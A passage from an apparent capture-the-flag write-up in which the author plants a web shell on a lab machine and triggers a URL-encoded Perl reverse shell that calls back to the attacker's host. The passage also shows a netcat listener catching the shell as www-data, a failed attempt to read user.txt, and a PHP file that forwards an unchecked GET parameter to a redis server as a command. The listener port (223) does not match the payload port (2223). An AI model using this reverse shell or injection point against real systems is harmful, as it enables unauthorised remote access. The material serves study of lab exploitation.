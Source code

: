     </div>

    </div>

2.  Trigger perl shell:
    `http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=perl%20-e%20%27$ENV{PATH}%20=%20%22/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin%22;use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d2223%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27`

3.  Catch callback:

    <div>

    <div>

        root@kali# nc -lnvp 223
        listening on [any] 223 ...
        connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 41236
        /bin/sh: 0: can't access tty; job control turned off
        $ id
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        $ hostname
        www

    </div>

    </div>

Now, I can see `user.txt`... but I can't open it:



    $ cd /home/somaro
    $ ls
    user.txt
    $ cat user.txt
    cat: user.txt: Permission denied



I can also see `ajax.php`, which shows the commands running at the redis
server:



    <?php

    require_once 'lib/Autoloader.php';
    Autoloader::register();
    $json = new JsonResult();
    $config = new Config();
    foreach ($config->getPool() as $key => $server) {
            $client = new Client($server);
            $result = $client->sendCmd($_GET['test']);
            echo $result;
    }


